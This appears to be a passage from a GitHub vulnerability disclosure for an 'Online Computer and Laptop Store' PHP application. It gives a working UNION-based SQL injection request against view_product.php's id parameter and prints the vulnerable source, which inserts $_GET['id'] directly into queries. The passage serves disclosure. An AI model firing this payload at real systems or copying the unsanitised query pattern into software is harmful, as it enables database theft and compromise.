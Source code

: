 ```
        $sub_cat_description = $result['description'];
    }
}
?>
```

# 3.SQL injection vulnerability in view_product.php

### Sample request POC #3

```
GET /?p=view_product&id=' UNION ALL SELECT 49,49,49,49,49,49,49,49,CONCAT(0x7162627a71,0x4b7a41414f754952634f73526d53446571737665437179644c4f5253534255656463747063445a59,0x7176786b71)-- - HTTP/1.1
Host: 10.211.55.3:8001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683795526315.jpg "Online Computer and Laptop Store - Multiple vulnerabilities")

### Related Codes /view_product.php
```
<?php 
 $products = $conn->query("SELECT p.*,b.name as bname FROM `products` p inner join brands b on p.brand_id = b.id where md5(p.id) = '{$_GET['id']}' ");
 if($products->num_rows > 0){
     foreach($products->fetch_assoc() as $k => $v){
         $$k= stripslashes($v);
     }
     $specs_qry = $conn->query("SELECT `meta_field`, `meta_value` FROM `specification_list`  where `product_id` = '{$id}'");
     $specs = array_column($specs_qry->fetch_all(MYSQLI_ASSOC), 'meta_value', 'meta_field');
    $upload_path = base_app.'/uploads/product_'.$id;
    $img = "";
    if(is_dir($upload_path)){
        $fileO = scandir($upload_path);
        if(isset($fileO[2]))
            $img = "uploads/product_".$id."/".$fileO[2];
        // var_dump($fileO);
    }
    $inventory = $conn->query("SELECT * FROM inventory where product_id = ".$id);
    $inv = array();
    while($ir = $inventory->fetch_assoc()){
        $inv[] = $ir;
```